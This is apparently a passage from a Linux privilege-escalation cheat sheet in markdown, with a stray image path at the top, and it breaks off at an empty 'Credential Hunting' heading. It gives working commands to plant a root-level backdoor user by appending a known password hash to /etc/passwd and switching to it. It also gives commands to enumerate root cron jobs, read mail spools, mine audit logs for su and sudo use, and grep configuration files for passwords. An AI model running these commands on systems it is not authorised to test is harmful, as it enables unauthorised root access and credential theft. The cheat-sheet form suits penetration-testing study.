 ```
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.
echo 'cidney:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:cidney:/home/cidney:/bin/bash' >> /etc/passwd
su cidney
id
```
## Cron.
```
crontab –u root –l
```

Look for unusual system-wide cron jobs:

```
cat /etc/crontab
ls /etc/cron.*
```
## File ownership
Bob is a user on this machine. What is every single file he has ever created?
```
find / -user aero 2>/dev/null
```
## Got Mail?
```
cd /var/mail/; ls -lsaht
```
## Logs
must be in the adm group
```session
aureport --tty | grep -E "su |sudo " | sed -E "s,su|sudo,${C}[1;31m&${C}[0m,g"
grep -RE 'comm="su"|comm="sudo"' /var/log* 2>/dev/null
```

## Config file Hunting

###  .conf, .config, .cnf 
```
for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done
```



```
for i in $(find / -name *.cnf 2>/dev/null | grep -v "doc\|lib");do echo -e "\nFile: " $i; grep "user\|password\|pass" $i 2>/dev/null | grep -v "\#";done
```


## Credential Hunting
